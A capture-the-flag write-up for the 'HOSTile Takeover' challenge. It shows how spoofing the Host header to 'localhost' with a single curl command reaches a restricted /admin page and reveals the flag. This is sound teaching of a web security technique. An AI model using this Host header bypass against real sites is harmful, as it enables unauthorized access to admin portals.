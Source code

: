 # HOSTile Takeover
> Seems we're unable to access our important admin portal. It worked perfectly fine when we were at our headquarters. Can you help us out? Try to gain access to the admin page and find the secret key!

> https://nicc-hostile-takeover.chals.io

## About the Challenge
We were given a website and We need to access the `/admin` endpoint


[Image extracted text: HOSTile Takeover
Admin
Welcome to our super secure websitel We have an admin portal that only we can use so STOP trying to gain
access to itl]


## How to Solve?
This chall is about `Host Header Attack`. We need to change the `Host` HTTP Header from `nicc-hostile-takeover.chals.io` to `localhost`. You can use `Repeater` on burpsuite or you can use `curl` like me

```
curl "https://nicc-hostile-takeover.chals.io/admin" -H "Host: localhost"
```


[Image extracted text: D: |>curl "https
Inicc
hostile-takeover.chals
io/admin
~H
"Host: localhost"
!DOCTYPE html>
<html lang-
<head>
<meta
charset="UTF
8" >
<title Evaluation deck</title>
<link
rel-"stylesheet"
href_"https:_
Icdn. jsdelivr-net/npm/bootstrap@3.3.7/dist/css/bootstrap-min.css
integrity_"sha384-BVYiiSIFeKldGmJRAkycuHAHRg32OmUcwwZon3RYdg4Va+PmSTsz/K68vbdEjh4u'
crossorigin_"anonymous
</head>
<body>
<h1></hl>
nicc{HOST_HBAdEr_AtTack}
</body>
</html>
Ye]


```
nicc{H0ST_H3AdEr_AtTack}
```